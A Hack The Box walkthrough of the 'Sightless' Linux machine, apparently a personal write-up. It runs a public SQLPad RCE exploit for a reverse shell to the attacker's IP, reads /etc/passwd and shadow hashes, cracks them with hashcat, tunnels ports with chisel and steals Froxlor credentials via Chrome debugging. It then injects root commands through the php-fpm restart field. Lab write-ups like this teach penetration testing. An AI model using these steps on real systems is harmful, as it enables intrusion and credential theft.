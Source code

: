 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-03-20
draft: true 
description: "a description"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
---
```

## Reconnaissance #Linux 
- Got three ports open
- ![[Pasted image 20241221001932.png]]
- FTP, SSH, web server
- The page running on `nginx/1.18.0`
## Enumeration
- The web had a Slightless Titled page while scrolling through I found a link button which redirected to `sqlpad.sightless.htb` website.
- I quickly added it hosts and visited it.
- Found  RCE from google in single search : https://github.com/shhrew/CVE-2022-0944.git
## Exploitation
- By executing it got shell
```
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working  directory but there isn't any way to transfer it to our machine cause no versions of python installed
- Then I got to know that this is a docker image that we are in
- ![[Pasted image 20241221022335.png]]
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd`got know that there are two users
- ![[Pasted image 20241221022519.png]]
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it will waste our time.
- ![[Pasted image 20241221022725.png]]
- After finding the module cracked it with my goto tool
```
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then logged in via SSH
- Got user flag
- ![[Pasted image 20241221023004.png]]
## Privilege Escalation
- Done some enumeration but `ss -tunlp` looked sus
- Too many ports don't ya think
- ![[Pasted image 20241221023121.png]]
- So I decided to forward all the weird looking ports to my machine
- On my machine
```
chisel server -p 7001 --reverse
```
- On the target machine
```
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- It seems that port 8080 is running Froxlor, which required credentials to login
- All the remaining ports seems to suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to here chrome://inspect/#devices and added all the ports using configure.
- ![[Pasted image 20241221023839.png]]
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials often
- From the Network tab, got auth request and got the password and username.
- ![[Pasted image 20241221024137.png]]
- Used those creds and got into Froxlor
- While hanging around there discovered a interesting endpoint that could lead to command injection
- ![[Pasted image 20241221024348.png]]
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command filled with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method modified the command to `chmod 777 /home/root.txt`
- ![[Pasted image 20241221024823.png]]
- Got the user flag. Then realized from the start I should've changed permissions for root directory itself
- ![[Pasted image 20241221024851.png]]

